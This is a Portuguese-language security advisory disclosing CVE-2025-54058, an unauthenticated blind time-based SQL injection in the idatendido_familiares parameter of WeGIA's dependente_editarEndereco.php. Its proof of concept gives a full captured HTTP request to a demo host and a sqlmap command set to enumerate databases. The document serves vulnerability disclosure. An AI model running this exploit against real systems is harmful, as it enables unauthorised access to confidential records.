

## CVE-2025-54058: Vulnerabilidade de Injeção SQL (Blind Time-Based) no parâmetro `idatendido_familiares` do Endpoint `dependente_editarEndereco.php`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-54058*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de injeção SQL foi descoberta no parâmetro <code>idatendido_familiares</code> do endpoint <code>/html/funcionario/dependente_editarEndereco.php</code>. Esse problema permite que qualquer invasor não autenticado injete consultas SQL arbitrárias, potencialmente levando a acesso não autorizado aos dados ou exploração adicional, dependendo da configuração do banco de dados.</p>

## Detalhes

<p style="text-align: justify;">O aplicativo não consegue sanitizar adequadamente a entrada fornecida pelo usuário no parâmetro <code>idatendido_familiares</code>. Como resultado, payloads SQL especialmente criados são interpretados diretamente pelo banco de dados de back-end.</p>

## PoC

Endpoint Vulnerável: `/html/funcionario/dependente_editarEndereco.php`

Parâmetro: `idatendido_familiares`

<p style="text-align: justify;">Salve a requisição no arquivo <code>req.txt</code>:</p>

```terminal
  POST /html/funcionario/dependente_editarEndereco.php?id_pessoa=3&idatendido_familiares=1 HTTP/1.1
  Host: demo.wegia.org
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br, zstd
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 125
  Origin: https://demo.wegia.org
  Connection: keep-alive
  Referer: https://demo.wegia.org/html/funcionario/profile_dependente.php?id_dependente=1
  Cookie: _ga_F8DXBXLV8J=GS2.1.s1751259204$o23$g1$t1751262251$j60$l0$h0; _ga=GA1.1.424189364.1749063834; PHPSESSID=ogoa4lr4nrqqudih73o8oj76p1
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Priority: u=0, i

  cep=52011-040&uf=PE&cidade=Recife&bairro=Gra%C3%A7as&rua=Avenida+Rui+Barbosa&numero_residencia=12&complemento=12&ibge=2611606
```

<p style="text-align: justify;">Então, use o <code>sqlmap</code>:</p>

```terminal
  sqlmap -r req.txt -p idatendido_familiares --risk=3 --level=5 --dbs --batch --dbms=mysql --batch
```



## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Acesso não autorizado a dados confidenciais (por exemplo, usuários, senhas, registros).</li>
    <li>Enumeração de banco de dados (esquemas, tabelas, usuários, versões).</li>
    <li>Escalonamento para RCE dependendo da configuração do banco de dados (por exemplo, xp_cmdshell, UDFs).</li>
    <li>Comprometimento total do aplicativo se encadeado com outras vulnerabilidades.</li>
    <li>Esse problema afeta todos os usuários e ambientes, pois não requer autenticação e pode ser acessado por meio de um ponto de extremidade público.</li>
  </ul>
</p>

## Referência

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-5pwp-39jc-wxj8](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-5pwp-39jc-wxj8)

## Encontrado por

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

## Colaborador

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette)

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*